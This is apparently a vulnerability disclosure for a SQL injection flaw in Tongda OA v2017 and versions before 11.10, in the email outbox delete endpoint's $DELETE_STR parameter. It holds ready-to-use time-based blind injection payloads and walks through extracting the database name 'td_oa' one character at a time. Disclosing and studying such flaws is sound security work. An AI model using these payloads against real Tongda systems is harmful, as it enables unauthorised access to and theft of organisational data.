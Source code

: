 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![.\TongDa Sql inject.assets\t1.png](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/t1.png?token=GHSAT0AAAAAACNLZOLMSWI63E34LCCSGHGQZNTDONQ)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![[image-20240126094241423](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094241423.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094241423.png?token=GHSAT0AAAAAACNLZOLMRBD2RD2Y7S3XAX2CZNTDPEQ)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126094806730](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094806730.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126094806730.png?token=GHSAT0AAAAAACNLZOLM7QTEEQQ5Z6IJUFRKZNTDPGQ)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095114500](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095114500.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095114500.png?token=GHSAT0AAAAAACNLZOLM7JYOCBZA227JNCQSZNTDPIA)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095822818](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095822818.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095822818.png?token=GHSAT0AAAAAACNLZOLMUQBW3GOCONLUXVEMZNTDPKA)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126095911470](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095911470.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126095911470.png?token=GHSAT0AAAAAACNLZOLNNVSMUA42M2W6UASGZNTDQKQ)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

[![image-20240126100122531](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100122531.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100122531.png?token=GHSAT0AAAAAACNLZOLNOH24CMBG7JKGSIU2ZNTDT2A)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![[image-20240126100029696](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100029696.png)](https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ)https://raw.githubusercontent.com/rockersiyuan/CVE/main/TongDa%20Sql%20inject.assets/image-20240126100029696.png?token=GHSAT0AAAAAACNLZOLNVN6ENR5FH6DJEYYQZNTDQMQ

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa
